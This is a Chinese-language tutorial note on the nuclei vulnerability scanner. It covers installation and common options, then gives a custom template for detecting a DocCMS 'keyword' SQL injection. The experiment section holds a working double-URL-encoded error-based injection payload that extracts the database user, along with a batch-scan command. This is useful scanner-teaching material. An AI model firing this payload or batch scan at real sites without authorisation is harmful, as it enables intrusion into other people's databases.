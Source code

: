 - [说明](#说明)
- [示例](#示例)
- [实验一](#实验一)

## 说明

> 漏洞扫描，批量检测，自定义POC https://github.com/projectdiscovery/nuclei

下载安装

```
# MacOSX
brew install nuclei
# Go
go install -v github.com/projectdiscovery/nuclei/v2/cmd/nuclei@latest
```

相关链接
- [官方使用文档](https://nuclei.projectdiscovery.io/templating-guide/protocols/http/)
- [README_CN](https://github.com/projectdiscovery/nuclei/blob/master/README_CN.md)

## 示例

```
# 使用模板模板扫描单个 URL
nuclei -u example.com -t template.xml

# 使用模板扫描文件内 url
nuclei -l URL.txt -t xxx.yaml

# 保存扫描结果到 result.txt
nuclei [options] -o result.txt

# 简化输出结果 重试次数5 超时时间10s
nuclei [options] -nm -retries 5 -timeout 10

# 更新引擎
nuclei -update

# 更新模板
nuclei -update-templates

# 扫描指定年份的所有CVE
echo https://example.com | nuclei -t 'cves/2021/*'

# 指定扫描文件夹内所有的 POC
echo https://example.com | nuclei -t 'vulnerabilities/moodle/*'
```

## 实验一

向 `https://example.com/search/index.php` 发送指定 GET 请求，返回响应包内包含 `ORDER BY id DESC` 字段的 URL，GET请求参数如下

```
keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33
```

**实验步骤：**

自定义yaml模板

```yaml
# 必要字段 ID
id: DocCMS-keyword-SQLi
# 必要字段INFO
info:
    name: DocCMS-keyword-SQLi
    author: kylin
    tags: sqli,DocCMS
    reference: http://wiki.peiqi.tech/wiki/cms/DocCMS/DocCMS%20keyword%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html
    severity: high
# HTTP请求数据包
requests:
  # 原始数据包(RAW)内容
  - raw:
    - |
      GET /search/index.php?keyword=1%25%32%37%25%32%30%25%36%31%25%36%65%25%36%34%25%32%30%25%32%38%25%36%35%25%37%38%25%37%34%25%37%32%25%36%31%25%36%33%25%37%34%25%37%36%25%36%31%25%36%63%25%37%35%25%36%35%25%32%38%25%33%31%25%32%63%25%36%33%25%36%66%25%36%65%25%36%33%25%36%31%25%37%34%25%32%38%25%33%30%25%37%38%25%33%37%25%36%35%25%32%63%25%32%38%25%37%33%25%36%35%25%36%63%25%36%35%25%36%33%25%37%34%25%32%30%25%37%35%25%37%33%25%36%35%25%37%32%25%32%38%25%32%39%25%32%39%25%32%63%25%33%30%25%37%38%25%33%37%25%36%35%25%32%39%25%32%39%25%32%39%25%32%33/ HTTP1.1
      Host: {{Hostname}}
    # 匹配字符串包含 ORDER BY id DESC
    matchers:
      - type: word
        words:
          - "ORDER BY id DESC"
```

指定 DocCMS-keyword-SQLi.yaml 模板并且指定 urls.txt 文件扫描

```
nuclei -l urls.txt -t DocCMS-keyword-SQLi.yaml
```

![图 4](../../../@attachment/images/Security/安全工具/nuclei_1661280665338.png)  